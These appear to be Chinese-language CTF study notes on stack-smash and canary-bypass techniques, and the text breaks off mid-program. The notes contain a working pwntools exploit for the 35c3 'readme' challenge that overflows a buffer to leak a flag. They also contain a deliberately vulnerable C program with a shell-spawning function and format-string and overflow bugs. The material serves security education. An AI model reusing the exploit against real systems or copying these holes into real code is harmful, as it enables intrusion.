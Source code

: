 - Stack smash

35c3 CTF readme

![img](https://my-md-1253484710.file.myqcloud.com/20190522132544.png)

```python
from pwn import *

addr_ow_flag = 0x600d20
addr_flag = 0x400d20

H,P = 'localhost', 6666

#r = process('./readme.bin')
r = remote(H,P)
junk  = r.recvuntil("What's your name? ")
exploit  = "A"*0x218
exploit += p64(addr_flag)
exploit += p64(0)
exploit += p64(addr_ow_flag)
r.sendline(exploit)
junk += r.recvuntil("Please overwrite the flag: ")
exploit  = "LIBC_FATAL_STDERR_=1"
r.sendline(exploit)
junk += r.recvall()
print junk
```

- 栈上partial overwrite

2018 安恒杯 babypie

2018 XNUCA-gets

### Canary 绕过技术

- 泄露栈中的Canary

	覆盖 Canary 的低字节，来打印出剩余的 Canary 部分

	```c
	// ex2.c
	#include <stdio.h>
	#include <unistd.h>
	#include <stdlib.h>
	#include <string.h>
	void getshell(void) {
	    system("/bin/sh");
	}
	void init() {
	    setbuf(stdin, NULL);
	    setbuf(stdout, NULL);
	    setbuf(stderr, NULL);
	}
	void vuln() {
	    char buf[100];
	    for(int i=0;i<2;i++){
	        read(0, buf, 0x200);
	        printf(buf);
	    }
	}
	int main(void) {
	    init();
	    puts("Hello Hacker!");
	    vuln();
	    return 0;